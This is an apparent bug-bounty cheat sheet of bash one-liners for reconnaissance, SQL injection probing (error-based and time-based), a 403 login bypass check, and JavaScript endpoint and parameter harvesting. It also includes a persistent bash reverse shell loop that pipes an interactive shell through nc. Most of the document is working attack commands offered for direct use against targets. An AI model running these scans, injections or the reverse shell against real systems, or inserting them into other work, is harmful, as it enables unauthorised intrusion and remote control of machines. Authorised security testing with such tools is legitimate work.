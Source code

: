 ## Simple 1Line #BASH For #BugBounty.

```
waybackurls TARGET.COM | grep = | tee urls.txt | nuclei -dast
```

```
gau TARGET.COM | grep = | tee urls.txt | nuclei -dast
```


## 1Line BASH To Perform #SQL_Injection For BugBounties.

```
cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable to SQLI Injection\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done
```


## LazyEgg - Hunting JS Files.

```
waybackurls target | grep '\.js$' | awk -F '?' '{print $1}' | sort -u | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && python lazyegg[.]py "{}" --js_urls --domains --ips'
```


## Reverse Shell Bash Loop.

```
while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done
```


## Find JavaScript Files.

```
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```


## Extract Endpoints from JavaScript.

```
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

## Find Subdomain.

```
subfinder -d target.com -silent | httpx -silent -o urls.txt
```


## SQLi-TimeBased scanner.

```
gau TARGET.COM | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done
```


## search javascript file.

```
gau -subs TARGET.COM |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt
```


## 403 login Bypass.

```
cat hosts.txt | httpx -path /login -p 80,443,8080,8443 -mc 401,403 -silent -t 300 | unfurl format %s://%d | httpx -path //login -mc 200 -t 300 -nc -silent
```


## Recon Parameters.

```
echo tesla.com | subfinder -silent | httpx -silent | cariddi -intensive
```


## Censys for a specific domain and extract IP addresses.

```
censys search "target.com" --index-type hosts | jq -c '.results[] | {ip: .ip}' | grep -oE '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+'
```


## Use Shodan in the terminal (CLI) to search for IPs.

```
shodan search "Ssl.cert.subject.CN:\"target.com\"" --fields ip_str | anew ips.txt
```


## One-Liner to Resolve and Save IP Addresses from Domains.Txt file.

```
cat live-domain.txt | httpx -ip -silent -timeout 10 | grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' | tee domains-ips.txt
```


## Extract hidden parameters in JS file [after you download it).

```
cat main.js | grep -oE '("[^"]*"|'[^']*'|\/[a-zA-Z0-9_/?=]+)' | sed -E 's/^["\']|["\']$//g' | sort -u
```
